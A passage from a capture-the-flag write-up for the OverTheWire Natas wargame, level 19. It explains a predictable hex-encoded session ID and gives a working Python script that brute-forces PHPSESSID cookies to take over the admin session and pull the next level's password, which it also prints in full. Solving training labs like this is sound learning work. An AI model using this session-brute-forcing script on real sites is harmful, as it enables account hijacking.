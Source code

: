 as we analyzed the php file and now we understand `id-admin` is bin2hex() used as `3239372d`

```php
function createID($user) { /* {{{ */
    global $maxid;
    $idnum = rand(1, $maxid);
    $idstr = "$idnum-$user";
    return bin2hex($idstr);
}
```

Let's write the full python script and brute force from `1-admin` to `640-admin` , each time we have convert from bin to hex , same as previous level

```py
import requests
import binascii
import re
import os,sys

cmd = ""
os_name = sys.platform
if os_name == 'win32':
	cmd = "cls"
elif os_name == 'linux' or os_name == 'darwin':
	cmd =  "clear"

username = "natas19"
password = "8LMJEhKFbMKIL2mxQKjv0aEDdk7zpT0s"

url = "http://%s.natas.labs.overthewire.org"%username
session = requests.Session()

for i in range(1,641):
	__id__ = b"%d-admin"%i
	hex_enc  = str(binascii.hexlify(__id__))[2:-1]
	print("Trying PHPSESSID (%s):"%i, hex_enc)
	response = session.post(url , cookies={"PHPSESSID" : hex_enc }, auth=(username,password))
	content = response.text

	if "You are an admin." in content:
		flag = re.findall("Username: natas20\nPassword: (.*)</pre>" ,content)[0]
		print("[+] Gotcha :",flag)
		break
	os.system(cmd)

```

---

### Natas 20
